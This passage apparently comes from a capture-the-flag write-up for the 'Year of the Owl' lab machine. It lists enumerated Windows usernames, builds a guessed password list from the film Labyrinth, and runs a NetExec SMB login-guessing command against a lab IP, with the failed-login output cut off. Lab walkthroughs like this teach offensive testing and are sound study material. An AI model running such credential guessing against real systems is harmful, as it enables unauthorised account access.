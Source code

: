 Nice! We found some user account names, being Jareth the only non-default one:

```shell
Guest
Jareth
Administrator
DefaultAccount
WDAGUtilityAccount
```

### Creating an OSINT password list and using NetExec to find valid credentials
Now that we have a valid username, we will create a list with possible passwords for the user Jareth.

We will use his username and password and we will also do some OSINT. If we google the name Jareth, we will find information related to a movie called Labyrinth. We used information about this film to create a possible passwords list called passwords.txt:

```shell
cat passwords.txt
```

```shell
jareth
Jareth
goblin
Goblin
goblinking
GoblinKing
Goblinking
Labyrinth
labyrinth
sarah
Sarah
sarahwilliams
SarahWilliams
hoggle
Hoggle
didymus
Didymus
```

After creating the passwords.txt list, I will use NetExec to check if I can see any valid credential combination:

```shell
nxc smb 10.10.115.133 -u Jareth -p passwords.txt
```

```shell
SMB         10.10.115.133   445    YEAR-OF-THE-OWL  [*] Windows 10 / Server 2019 Build 17763 (name:YEAR-OF-THE-OWL) (domain:year-of-the-owl) (signing:False) (SMBv1:False)
SMB         10.10.115.133   445    YEAR-OF-THE-OWL  [-] year-of-the-owl\Jareth:jareth STATUS_LOGON_FAILURE 
SMB         10.10.115.133   445    YEAR-OF-THE-OWL  [-] year-of-the-owl\Jareth:Jareth STATUS_LOGON_FAILURE 
SMB         10.10.115.133   445    YEAR-OF-THE-OWL  [-] year-of-the-owl\Jareth:goblin STATUS_LOGON_FAILURE 
SMB         10.10.115.133   445    YEAR-OF-THE-OWL  [-] year-of-the-owl\Jareth:Goblin STATUS_LOGON_FAILURE 
SMB         10.10.115.133   445    YEAR-OF-THE-OWL  [-] year-of-the-owl\Jareth:goblinking STATUS_LOGON_FAILURE 
SMB         10.10.115.133   445    YEAR-OF-THE-OWL  [-] year-of-the-owl\Jareth:GoblinKing STATUS_LOGON_FAILURE 
SMB         10.10.115.133   445    YEAR-OF-THE-OWL  [-] year-of-the-owl\Jareth:Goblinking STATUS_LOGON_FAILURE 
```
